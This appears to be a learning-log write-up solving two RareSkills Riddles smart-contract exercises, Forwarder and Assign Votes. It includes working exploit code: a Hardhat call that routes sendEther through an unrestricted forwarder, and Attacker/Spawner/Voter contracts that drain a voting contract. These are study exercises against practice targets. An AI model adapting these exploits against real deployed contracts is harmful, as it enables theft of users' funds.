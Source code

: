 ## Day 13: Business logic errors (and ABI encoding Prerequisite)

### RareSkills Riddles: Forwarder

The objective of this attack is to get the attacker's wallet to be near 1 Eth in value.  This appears to be a test of using call() and delegatecall().  The Wallet's sendEther function expects to be called by the Forwarder contract.  

```Java
    function sendEther(address destination, uint256 amount) public {
        require(msg.sender == forwarder, "sender must be forwarder contract");
        (bool success, ) = destination.call{value: amount}("");
        require(success, "failed");
    }
```

The Hardhat test code to make this call is given below.  The hardest part was encoding in JavaScript.  

```Javascript
    it("conduct your attack here", async function () {
      // forwarder contract needs to call functionCall(walletContract.address, bytes)
      // set up abi.encodeWithSignature in JS
      let ABI = ["constructor(address _forwarder)",
        "function sendEther(address destination, uint256 amount)",];
      let iface = new ethers.utils.Interface(ABI);
      let encodedShit = iface.encodeFunctionData("sendEther", [attackerWallet.address, ethers.utils.parseEther("1")]);

      await forwarderContract.connect(attackerWallet).functionCall(walletContract.address, encodedShit);
    });
```

The code above simply has the forwarderContract forward the ```sendEther()``` call to the Wall contract.  


### RareSkills Riddles: Assign Votes

The objective here is to drain the victimContract in one transaction.  The contract can create proposals and addresses can vote on these proposals if they have been assigned.  Each address can vote 

Each proposal has a value, a target address and data that will be called if the number of votes is over 9.  Any address can vote, but in order to vote the address must be assigned a vote.  Here is the code for ```assign()``` and ```removeAssignment()```.  

```Java
    function removeAssignment(address _voter) public {
        require(!alreadyVoted[_voter], "already voted");
        require(assignedBy[_voter] != address(0), "not assigned");

        assignedBy[_voter] = address(0);
        amountAssigned[msg.sender] += 1;
    }

    function assign(address _voter) public {
        require(amountAssigned[msg.sender] >= -5, "you ran out of assignments");
        assignedBy[_voter] = msg.sender;
        amountAssigned[msg.sender] -= 1;
    }
```

One thing to note is that there are no special permissions for assigning votes.  Any address can assign any five addresses as voters.  We could create five or ten contracts and have them vote.  Code to do this is given below.  The code is a contract (```Attacker```) which creates two ```Spawner``` contracts which spawn five ```Voter``` contracts.   The Attacker contract first creates a proposal which is to receive 1 Ether, and finally calls ```execute()``` on that proposal after it has been voted for.  


```Java
contract Attacker {
    AssignVotes immutable victim;

    constructor(address _victimAdd, uint _proposalNumber) {
        victim = AssignVotes(_victimAdd);

        // create proposal         address target, bytes calldata data, uint256 value
        victim.createProposal(address(this), "", 1 ether);
        // create two spawners 
        Spawner spawner0 = new Spawner(_victimAdd, _proposalNumber);
        Spawner spawner1 = new Spawner(_victimAdd, _proposalNumber);

        victim.execute(_proposalNumber);
    }

    receive() external payable { 
    }
}

// spawns five Voter contracts which vote for our proposal 
contract Spawner {
    constructor (address _victimAdd, uint256 _proposalNumber) {
        AssignVotes victim = AssignVotes(_victimAdd);

        // create 5 voter contracts
        for (uint8 i; i<6; i++) {
            // create voter contract
            Voter voterI = new Voter(_victimAdd);
            // approve voterI to vote
            victim.assign(address(voterI));
            // call voter.vote()
            voterI.vote(_proposalNumber);
        }
    }
}

contract Voter {
    AssignVotes immutable victim;

    constructor (address _victimAdd) {
        victim = AssignVotes(_victimAdd);
    }

    function vote(uint256 proposalNum) external {
        victim.vote(proposalNum);
    }
}
```